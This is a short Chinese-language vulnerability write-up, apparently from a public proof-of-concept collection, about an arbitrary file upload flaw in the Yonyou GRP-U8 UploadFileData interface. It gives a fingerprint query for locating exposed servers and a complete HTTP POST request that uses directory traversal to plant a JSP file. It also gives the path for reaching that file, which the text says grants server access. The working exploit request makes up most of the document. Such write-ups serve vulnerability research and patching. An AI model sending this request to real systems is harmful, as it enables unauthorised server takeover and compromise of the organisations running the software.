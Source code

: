 # 用友 GRP-U8 UploadFileData 任意文件上传漏洞

## 漏洞描述

用友 GRP-U8 UploadFileData接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
用友 GRP-U8
```

## 网络测绘

```
app="用友-GRP-U8"
```

## 漏洞复现

登录页面

![image-20220824142321531](images/202208241423596.png)

验证POC

```
POST /UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&foldername=%2e%2e%2f&filename=debugg.jsp&filename=1.jpg HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=59227D2C93FE3E8C2626DA625CE710F9
Content-Type: multipart/form-data
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

------WebKitFormBoundary92pUawKc
Content-Disposition: form-data; name="myFile";filename="test.jpg"

<% out.println("123");%>
------WebKitFormBoundary92pUawKc--
```

![image-20220824142335805](images/202208241423854.png)

访问写入的文件

```
/R9iPortal/debugg.jsp
```

![image-20220824142350845](images/202208241423890.png)